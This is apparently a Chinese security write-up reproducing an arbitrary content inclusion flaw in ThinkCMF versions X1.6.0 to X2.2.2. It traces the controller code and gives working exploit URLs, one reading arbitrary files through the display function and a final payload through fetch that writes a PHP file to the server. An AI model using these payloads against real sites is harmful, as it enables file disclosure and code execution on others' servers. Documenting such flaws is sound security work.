 ```yaml
---
title: ThinkCMF 框架上的任意内容包含漏洞
id: zhfly3138
---
```


# ThinkCMF 框架上的任意内容包含漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

根据index.php中的配置，他的项目路径为application，打开 Portal 下的 Controller 目录，选择一个控制类文件。

![image](../img/2b6a42a3bcca1c7062e9fb81990a2cf0.png)

发现他的父类为Common\Controller\HomebaseController。
在HomeBaseController中加入如下测试代码

![image](../img/c766c7cc2387ac46920f4fd1cbe5b543.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public, 而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success 
```

![image](../img/8129073d7be6fbd2441ee49b3ba11ca4.png)

HomeBaseController类中有一些访问权限为public的函数，

![image](../img/9aa3c4fdec99f95178857d03f2f9ee98.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
$this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

```
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
} 
```

再往下就是调用Think View的fetch方法，这里的TMPL_ENGINE_TYPE 为Think, 最终模版内容解析在ParseTemplateBehavior中完成
如下调用即可加载任意文件
http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md

![image](../img/4abe08032248d763301f0efb37d84ba5.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

```
http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php> 
```